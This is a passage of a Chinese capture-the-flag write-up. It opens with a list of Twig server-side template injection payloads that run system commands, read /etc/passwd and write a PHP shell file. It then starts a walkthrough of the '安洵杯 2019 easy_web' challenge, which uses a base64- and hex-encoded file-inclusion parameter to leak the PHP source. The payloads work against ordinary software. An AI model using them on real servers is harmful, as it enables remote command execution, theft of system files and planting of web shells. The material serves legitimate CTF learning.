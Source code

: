 代码直接渲染了user的值，我们可以直接利用

payload

```
{{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("id")}}
{{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("cat /flag")}}
```

其他payload

```
{{'/etc/passwd'|file_excerpt(1,30)}}
{{app.request.files.get(1).__construct('/etc/passwd','')}}
{{app.request.files.get(1).openFile.fread(99)}}
{{_self.env.registerUndefinedFilterCallback("exec")}}
{{_self.env.getFilter("whoami")}}
{{_self.env.enableDebug()}}{{_self.env.isDebug()}}
{{["id"]|map("system")|join(",")
{{{"<?php phpinfo();":"/var/www/html/shell.php"}|map("file_put_contents")}}
{{["id",0]|sort("system")|join(",")}}
{{["id"]|filter("system")|join(",")}}
{{[0,0]|reduce("system","id")|join(",")}}
{{['cat /etc/passwd']|filter('system')}}
```

## [安洵杯 2019]easy_web

打开网站发现有两个参数

img和cmd

对TXpVek5UTTFNbVUzTURabE5qYz0进行解码

![image-20240218160048220](https://dabai1-1316520326.cos.ap-shanghai.myqcloud.com/img/image-20240218160048220.png)

应该存在文件包含，尝试读取index.php

![image-20240218160329735](https://dabai1-1316520326.cos.ap-shanghai.myqcloud.com/img/image-20240218160329735.png)

payload

```
index.php?img=TmprMlpUWTBOalUzT0RKbE56QTJPRGN3&cmd=11
```

得到源码

```php+HTML
<?php
error_reporting(E_ALL || ~ E_NOTICE);
header('content-type:text/html;charset=utf-8');
$cmd = $_GET['cmd'];
if (!isset($_GET['img']) || !isset($_GET['cmd'])) 
    header('Refresh:0;url=./index.php?img=TXpVek5UTTFNbVUzTURabE5qYz0&cmd=');
$file = hex2bin(base64_decode(base64_decode($_GET['img'])));

$file = preg_replace("/[^a-zA-Z0-9.]+/", "", $file);
if (preg_match("/flag/i", $file)) {
    echo '<img src ="./ctf3.jpeg">';
    die("xixi～ no flag");
} else {
    $txt = base64_encode(file_get_contents($file));
    echo "<img src='data:image/gif;base64," . $txt . "'></img>";
    echo "<br>";
}
echo $cmd;
echo "<br>";
```